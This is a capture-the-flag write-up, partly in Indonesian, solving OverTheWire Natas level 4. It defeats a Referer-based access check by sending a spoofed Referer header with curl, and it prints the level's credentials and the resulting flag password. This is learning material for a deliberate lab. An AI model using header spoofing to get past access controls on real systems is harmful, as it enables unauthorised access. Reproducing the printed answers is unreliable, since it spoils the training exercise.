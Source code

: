 ```yaml
---
layout: default
test_level4
name_file: level
---
```


{% include level-section.html %}

# soal
Username: natas4 \
URL:      http://natas4.natas.labs.overthewire.org

# solve
- use cred natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
- use the curl, burp suite, third party extension (header editor)
  - and change the request header with 
  ```
  Referer: http://natas5.natas.labs.overthewire.org/
  # gunakan / akhir karena ketika saya coba tanpa / tidak bisa
  ```
- jika menggunakan curl
  ```bash
  curl http://natas4.natas.labs.overthewire.org -u natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ -H "Referer: http://natas5.natas.labs.overthewire.org/"
  # Access granted. The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
  ```

## HTTP Referer
- Referer: <url>
- dalah salah satu header HTTP yang digunakan untuk memberi tahu server dari mana asal pengguna sebelum mengakses halaman tertentu. Fungsinya adalah untuk memberi konteks kepada server tentang halaman sebelumnya yang "mengacu" atau "merujuk" ke halaman saat ini.

# flag
0n35PkggAPm2zbEpOU802c0x0Msn1ToK
